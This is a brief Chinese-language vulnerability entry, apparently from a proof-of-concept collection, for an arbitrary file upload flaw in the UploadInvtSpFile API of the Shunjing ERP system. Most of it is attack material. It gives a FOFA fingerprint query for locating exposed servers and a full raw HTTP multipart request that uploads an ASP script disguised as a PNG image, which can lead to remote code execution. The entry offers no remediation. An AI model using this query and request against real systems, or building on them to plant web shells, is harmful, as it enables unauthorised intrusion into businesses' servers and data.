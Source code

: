 # 顺景ERP管理系统UploadInvtSpFile存在任意文件上传漏洞

顺景ERP管理系统UploadInvtSpFile存在任意文件上传漏洞，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全。

## fofa

```javascript
body="/api/DBRecord/getDBRecords"
```

## poc

```javascript
POST /api/cgInvtSp/UploadInvtSpFile HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=-----------------1111
Content-Length: 178

-------------------1111
Content-Disposition: form-data; name="filedata"; filename="2142142142.asp"
Content-Type: image/png

<% response.write("1111")%>
-------------------1111--
```

![ebb92616e1835d80e80f6c6cb97ee814](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409111921995.png)



## 漏洞来源

- https://mp.weixin.qq.com/s/BrbgHxUO4GJ0Haza5xf6dQ